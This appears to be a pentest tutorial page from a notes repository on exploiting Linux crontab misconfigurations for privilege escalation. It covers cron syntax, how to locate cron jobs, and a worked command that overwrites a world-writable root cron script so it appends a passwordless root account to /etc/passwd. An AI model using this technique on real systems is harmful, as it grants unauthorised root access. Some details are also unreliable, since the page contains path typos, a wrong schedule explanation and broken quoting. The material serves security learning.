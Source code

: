 # CronTab MissConfigurations

A crontab file contains instructions to the cron daemon of the general form: "run this command at this time on this date".

Each User own a crontab file.

### Table of Contents

- [Crontab syntax](#crontab-syntax)
- [Recognition](#recognition)
- [Usage](#usage)
- [Privilege Escalation](#privilege-escalation)
- [Docu](#documentation)

## Crontab syntax

```crontab
* * * * * <command to be executed>
- - - - -
| | | | |
| | | | ----- Weekday (0 - 7) (Sunday is 0 or 7, Monday is 1...)
| | | ------- Month (1 - 12)
| | --------- Day (1 - 31)
| ----------- Hour (0 - 23)
------------- Minute (0 - 59)
```

In system-wide crontabs, you can specify the user.

```crontab
* * * * * <username> <command to be executed>
```

## Recognition

List and verify every crontab call to find a vulnerability:

- current cron for the user:

  ```bash
  $>crontab -l
  ```

- system-wide crontab

  /etc/cron.d
  /ect/cron.hourly
  /etc/cron.daily
  /etc/cron.weekly
  /etc/cron.monthly

## Usage

By default, Cron runs as root when executing /etc/crontab, so any commands or scripts that are called by the crontab will also run as root.

#### Call a script write /etc/cron.\*

```bash
01 * * * * root run-parts /etc/cron.hourly
```

## Privilege Escalation

### Two way to escalade privilege with CronTab

#### Miss protected script

/etc/cron call a script miss protected (every user can edit it, and make their command executable by the root)

```bash
3 * * * * cd /path/to/script.sh

# every 3 min the script is launch by root
$>ls -la /path/to/script.sh
-rw-rw-rw- 1 root root 11833 Aug 30  2015
#every one can modify it
$>echo '“gottie::0:0:System Administrator:/root/root:/bin/bash” >> /etc/passwd ' > /path/to/script.sh
#next call to the script, gottie is now a root with no passwd to login
```

#### Vulnerable Script

If you can't write into the script maybe you can find a vulnerablily inside it!

### Documentation

- [Man crontab](https://linux.die.net/man/5/crontab)
- [Crontab privilege Esacalad](https://medium.com/swlh/privilege-escalation-via-cron-812a9da9cf1a)

---

[**:arrow_right_hook:Back home**](../README.md)
